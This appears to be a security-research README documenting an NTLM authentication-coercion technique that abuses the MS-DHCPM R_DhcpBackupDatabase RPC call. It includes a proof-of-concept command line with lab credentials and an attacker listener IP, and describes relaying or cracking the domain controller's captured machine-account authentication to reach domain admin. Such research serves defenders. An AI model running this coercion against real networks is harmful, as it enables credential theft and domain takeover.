 # MS-DHCPM - Remote call to R_DhcpBackupDatabase (opnum 44)

## Summary

 - **Protocol**: [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4)

 - **Protocol UUID**: 6bffd098-a112-3610-9833-46c3f874532d

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\DHCPSERVER`

 - **Function name**: [`R_DhcpBackupDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b)

 - **Function operation number**: `44`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DHCPSERVER` and bind to the desired [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol (with uuid `6bffd098-a112-3610-9833-46c3f874532d` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DHCPSERVER` This pipe is connected to the protocol [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) and allows to call RPC functions of this protocol. We will then call the remote [`R_DhcpBackupDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DhcpBackupDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_DhcpBackupDatabase(
   [in, unique, string] DHCP_SRV_HANDLE ServerIpAddress,
   [in, string] LPWSTR Path
 );
```

## References

 - Documentation of protocol [MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4

 - Documentation of function `R_DhcpBackupDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b